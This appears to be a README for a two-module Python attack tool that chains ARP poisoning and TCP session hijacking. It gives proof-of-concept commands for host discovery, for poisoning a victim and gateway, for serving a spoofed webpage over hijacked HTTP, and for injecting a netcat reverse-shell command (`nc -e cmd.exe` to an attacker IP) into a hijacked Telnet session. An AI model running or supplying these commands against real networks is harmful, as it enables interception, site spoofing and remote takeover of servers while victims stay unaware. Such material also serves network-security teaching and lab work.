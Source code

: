 # TCP Hijacking

The attack is carried out in two stages.

1. Man in the Middle attack using **ARP poisoning**. This allows the attacker to sniff the traffic and obtain the TCP SEQ and ACK numbers.

2. Higher-layer protocol attack through **TCP session hijacking**. For instance, unencrypted application layer protocols such as Telnet, FTP and HTTP.

The tool is split into two modules: `arp_poisoning.py` and `tcp_hijacking.py`.

The ARP Poisoning module provides auxiliary features like host discovery and traffic sniffing.

The attacker may want to conduct a TCP hijacking attack. In this case, the TCP Hijacking module is used.

# Proof of Concept

## Discovery

The following command can be used to discover hosts on the network using an ARP scan.

`python3 arp_poisoning.py discover 192.168.28.0/24`

![ARP Scan](img/arp_scan.png)

## ARP Poisoning

Provide the victim IP and the gateway IP.

`python3 arp_poisoning.py attack 192.168.213.212 192.168.213.22`

![ARP Poisoning](img/mitm.png)

All the subsequent attacks rely on first achieving a man-in-the-middle attack via ARP poisoning.

![ARP Table Before and After](img/arp_spoofed.png)

## HTTP Session Hijacking

The attacker returns an arbitrary webpage (poc.html) when the victim sends a HTTP GET request.

The legit website hosted on port 80:

![Legit Website](img/legit_website.png)

Script output:

![Script Output](img/http_hijacking.png)

After successful attack, the victim sees the attacker's website instead:

![Attacker Website](img/spoofed_site.png)

## Telnet Session Hijacking

The attacker hijacks an established Telnet session to execute arbitrary commands. For example, the following executes `nc -e cmd.exe 192.168.213.223 4444`, giving the attacker a reverse shell into the Telnet server.

`python3 tcp_hijacking.py 192.168.213.212 192.168.213.197 telnet "nc -e cmd.exe 192.168.213.223 4444"`

![Remote Command Execution](img/reverse_shell_with_script_output.png)

Script output:

![Telnet Hijacking](img/telnet_hijacking.png)

Reverse shell:

![Reverse Shell](img/reverse_shell.png)

From the perspective of the victim, he/she has lost connection to the Telnet server, and is not aware of the presence of the attacker.

![Victim POV](img/telnet_hijacked.png)